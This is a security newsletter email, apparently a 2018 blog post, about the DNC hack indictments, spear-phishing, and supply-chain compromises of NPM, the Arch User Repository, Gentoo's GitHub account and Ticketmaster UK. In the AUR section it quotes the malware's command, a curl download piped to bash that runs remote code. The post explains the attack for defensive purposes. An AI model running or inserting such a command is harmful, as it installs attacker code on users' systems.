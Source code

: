 ```yaml
---
layout: email
title: The Mueller Indictments, NPM, Arch, Gentoo, and Ticketmaster UK
---
```


Good morning.

A longer email today, as a final farewell before I head off on a few weeks of vacation.

My [last email](/Email-update-ASD-becomes-statutory-authority-ISM-gets-update/) contained a fairly significant typo in the third-last paragraph: 'proscriptive' vs 'prescriptive'. Hopefully most of you knew what I meant!

As a follow up to that story, [this article](https://warontherocks.com/2018/07/fish-out-of-water-how-the-military-is-an-impossible-place-for-hackers-and-what-to-do-about-it/) has been making the rounds on Twitter. It's very well put together, and covers many of the same issues ASD has with recruitment and retention of good security people.

### The Mueller Indictments

One of the major stories of the week was the [indictment of 12 members of Russian Intelligence](https://lawfareblog.com/russia-indictment-20-what-make-muellers-hacking-indictment) for the hack of the Democratic National Committee in 2016. The indictments themselves are quite interesting, and the forensic work performed by Crowdstrike (and presumably, U.S. intelligence agencies) is incredibly impressive.

Tangentially related was this [Twitter thread](https://twitter.com/pwnallthethings/status/1018164868640329728) by Matt Tait ([@pwnallthethings](https://twitter.com/pwnallthethings)):

[![Modern spearphishing - 1](/images/matt-tait-phishing-1.PNG)](https://twitter.com/pwnallthethings/status/1018164868640329728)

It's worth reading the whole thread, especially the two tweets containing screenshots of the actual phishing email sent to John Podesta, as well as the fake website set up to steal his credentials. They're quite eye-opening if you've never seen a sophisticated phishing campaign.

As Tait says, modern spear-phishing is extremely effective, and that effectiveness is simply a factor of how much effort the attacker puts into it (and making a convincing phishing email isn't technically difficult). The reality is that if you're targeted by anyone competent, they're going to get your password. 

The trick is to secure yourself in a way that you're not completely screwed the moment someone else steals one of your passwords: mitigations like unique passwords and multi-factor authentication.

### Malicious module published in NPM

It's been a crazy couple of weeks for supply-chain attacks.

We'll start with the most recent, from [Bleeping Computer](https://bleepingcomputer.com/news/security/compromised-javascript-package-caught-stealing-npm-credentials/):

>A hacker has gained access to a developer's npm account and injected malicious code into a popular JavaScript library, code that was designed to steal the npm credentials of users who utilize the poisoned package inside their projects.
>
>The JavaScript (npm) package that got compromised is called eslint-scope, a sub-module of the more famous ESLint, a JavaScript code analysis toolkit.

This is precisely the sort of attack outlined by David Gilbertson in his [Medium post](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5) back in January, which I mentioned in a [previous email](/Email-update-The-cabinet-files-and-supply-chain-attacks-at-scale/). Gilbertson's post was a bit of a wake-up-call to many web developers at the time, and it now seems prescient.

### Malicious package published in Arch User Repository

Two days before the NPM story, a very similar thing happened to Arch Linux. From [Bleeping Computer](https://bleepingcomputer.com/news/security/malware-found-in-arch-linux-aur-package-repository/) again:

>Malware has been discovered in at least three Arch Linux packages available on AUR (Arch User Repository), the official Arch Linux repository of user-submitted packages. [...]
>
>The incident happened because AUR allows anyone to take over "orphaned" repositories that have been abandoned by their original authors.
>
>On Saturday, a user going by the pseudonym of "xeactor" took over one such orphaned package named "acroread" that allows Arch Linux users to view PDF files.
>
>According to a Git commit to the package's source code, xeactor added malicious code that would download a file named "~x" from ptpb.pw, a lightweight site mimicking Pastebin that allows users to share small pieces of texts.

The malicious commit is [here](https://aur.archlinux.org/cgit/aur.git/commit/?h=acroread&id=b3fec9f2f16703c2dae9e793f75ad6e0d98509bc). At the bottom of the page, you can see highlighted in green the following line:

```curl -s https://ptpb.pw/~x|bash -&```

This command downloads another set of instructions and executes them, which ends up installing a scheduled service and collecting data about each compromised system.

Fortunately, the malicious change was found and removed before more damage was done.

### Gentoo's GitHub account hacked

From [The Register](https://www.theregister.co.uk/2018/06/28/gentoo_linux_github_hacked/):

>The Linux distro's officials sounded the alarm on Thursday, revealing someone managed to break into its GitHub organization account to modify software and webpages.
>
>Basically, if you downloaded and installed materials from Gentoo via GitHub, you might be compromised by bringing in malicious code. And until the all clear is given, you should avoid fetching anything from the project's 'hub org account.

Gentoo can best be described as a niche Linux distribution: it's premise is that all applications are compiled from source locally, rather than being downloaded as pre-compiled binaries (like traditional software).

Initial predictions regarding the compromise were that a project maintainer's GitHub password had been guessed, and that they must not have had [two-factor authentication](https://help.github.com/articles/about-two-factor-authentication/) enabled. Sure enough, in the follow-up [incident report](https://wiki.gentoo.org/wiki/Project:Infrastructure/Incident_Reports/2018-06-28_Github):

>The attacker gained access to a password of an organization administrator. Evidence collected suggests a password scheme where disclosure on one site made it easy to guess passwords for unrelated webpages.

In other words, the admin had the password `"Kangaroo2017!"` on another site, and `"Kangaroo2018!"` on GitHub. Compromise of the first led to compromise of the second, and a lack of two-factor authentication meant game-over.

This sort of attack is entirely predictable, and the reason that [good password practices](https://markeldo.com/Email-update-Security-trade-offs/) recommend creating unique passwords for every website/service, storing these unique passwords in a password manager, and using two-factor authentication (2FA) wherever you can. 

This has been recommended practice for many years now, and an administrator for a major Linux distribution's GitHub project should have known better. Still, it's impossible to force people to use unique passwords, and it's becoming increasingly obvious that if you don't mandate the use 2FA, users are unlikely to enable it themselves. 

For any non-trivial systems, we as an industry need to stop relying on users being conscientious, and start making these protections mandatory.

### Ticketmaster UK supply-chain attack

Ticketmaster UK has had a bad few weeks. From [The Register](https://www.theregister.co.uk/2018/06/27/ticketmaster_support_bot_hack/):

> "On Saturday, June 23, 2018, Ticketmaster UK identified malicious software on a customer support product hosted by Inbenta Technologies, an external third-party supplier to Ticketmaster," the ticket biz said in a statement.

Inbenta is a provider of the sort of "chat bot" help systems you see on many websites these days. Ticketmaster was embedding Inbenta's code on their payments page, which meant that code had visibility of any credit card details entered by Ticketmaster's customers.

This is a classic example of where a supply-chain attack is effective. Ticketmaster had put Inbenta in a highly privileged position in their system, and the attacker, rather than attacking Ticketmaster directly, instead compromised Inbenta and leveraged this privileged access to steal credit card details.

Ticketmaster's main fault was putting Inbenta in a priviliged positon they didn't even need, increasing the risk of compromise for no tangible benefit.

From the [statement](https://www.inbenta.com/en/inbenta-and-the-ticketmaster-data-breach/) by the CEO of Inbenta, Jordi Torras:

>Upon further investigation by both parties, it has been confirmed that the source of the data breach was a single piece of JavaScript code, that was customized by Inbenta to meet Ticketmaster’s particular requirements. This code is not part of any of Inbenta’s products or present in any of our other implementations.
>
>Ticketmaster directly applied the script to its payments page, without notifying our team. Had we known that the customized script was being used this way, we would have advised against it, as it incurs greater risk for vulnerability. The attacker(s) located, modified, and used this script to extract the payment information of Ticketmaster customers processed between February and June 2018.

In short, Ticketmaster screwed up. They included Inbenta's script on a webpage it had no business being, and they're now learning a painful fact about security breaches: even if the attack vector was someone else's product, your customers will still blame you. You can outsource the work, but you can't outsource the blame.